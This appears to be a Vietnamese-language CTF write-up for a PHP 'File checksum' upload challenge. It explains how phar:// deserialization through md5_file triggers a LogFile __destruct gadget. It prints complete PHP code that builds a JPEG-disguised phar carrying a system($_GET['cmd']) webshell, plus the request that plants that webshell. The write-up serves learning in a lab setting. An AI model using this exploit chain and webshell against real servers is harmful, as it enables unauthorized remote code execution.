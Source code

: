 Đây là một challeng PHP có chức năng upload file và filter extension 
```php
  $fileExtension = strtolower(pathinfo($fileName, PATHINFO_EXTENSION));
  $disallowedExtensions = ['php', 'php5', 'php6', 'php7', 'php8'];

```
Mình thử các các extension trong bài viết [này](https://book.hacktricks.xyz/pentesting-web/file-upload) nhưng đều không up được webshell lên. 

Sau một hồi đọc suorce thì thấy có file `logging.php` có hàm `__destruct()` với cả tên container của docker là `insecure-deserialization` thì mình nghĩ ngay đến lỗ hổng insecure-deserialization.
```php
<?php
class LogFile {
    public $filename;
    public $fcontents;

    public function writeToFile() {
        if (!empty($this->filename) && !empty($this->fcontents)) {
            file_put_contents($this->filename, $this->fcontents . PHP_EOL, FILE_APPEND);
        }
    }

    public function __destruct() {
        $this->writeToFile();
    }
}

?>
```
Nhưng mình tìm ở các file khác thì không có sử dụng hàm `unserialize` nên lúc này khá bí. Challenge để tên là `File checksum` sử dụng md5, mình thử search một hồi thì tìm thấy được bài viết [này](https://book.hacktricks.xyz/pentesting-web/file-inclusion/phar-deserialization).
Bài viết đề cập đến lỗi của các hàm file_get_contents(), fopen(), file() or file_exists(), md5_file(), filemtime() hay filesize(), khi truyền tham số là một wrapper với protocol là `phar://file.phar` thì sẽ thực hiện đọc các dữ liệu của file phar đó. Và thực hiện unserialize phần dữ liệu `Meta-data` do phần này trong [file phar](https://www.php.net/manual/en/phar.fileformat.manifestfile.php) được lưu trữ dưới định dạng serialize.

Dựa trên lỗi này mình tận dụng class LogFile có hàm `writeToFile()` được gọi khi `__destruct()` để upload webshell với 2 tham số là tên file và nội dung. Trước hết là tạo file phar với phần meta-data là serialize class `Logfile` có biến `fcontents` là webshell.
Code gen file phar
```php
<?php

class LogFile {
    public $filename;
    public $fcontents;

    public function writeToFile() {
        if (!empty($this->filename) && !empty($this->fcontents)) {
            file_put_contents($this->filename, $this->fcontents . PHP_EOL, FILE_APPEND);
        }
    }

    public function __destruct() {
        $this->writeToFile();
    }
}

// create new Phar
$phar = new Phar('test.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub("\xff\xd8\xff\n<?php __HALT_COMPILER(); ?>");

// add object of any class as meta data
$object = new LogFile();
$object->filename="uploads/shell.php";
$object->fcontents= "<?php system(\$_GET[\"cmd\"]); ?>";
$phar->setMetadata($object);
$phar->stopBuffering();
```
Upload file phar
![image](https://github.com/user-attachments/assets/f36b9a45-3475-44fe-8f04-02c786cf658b)

Sau khi có đường dẫn file phar thì chạy file `checksum.php` với tham số `?file=phar://uploads/672e6276bd4fe_test.phar` để tạo file webshell.

![image](https://github.com/user-attachments/assets/7afec38b-294b-4ac8-b8c1-11fbdcf6d6af)


Giờ chỉ việc chạy webshell đế lấy flag thôi
![image](https://github.com/user-attachments/assets/07320168-1239-4cea-abd6-077ba1618384)


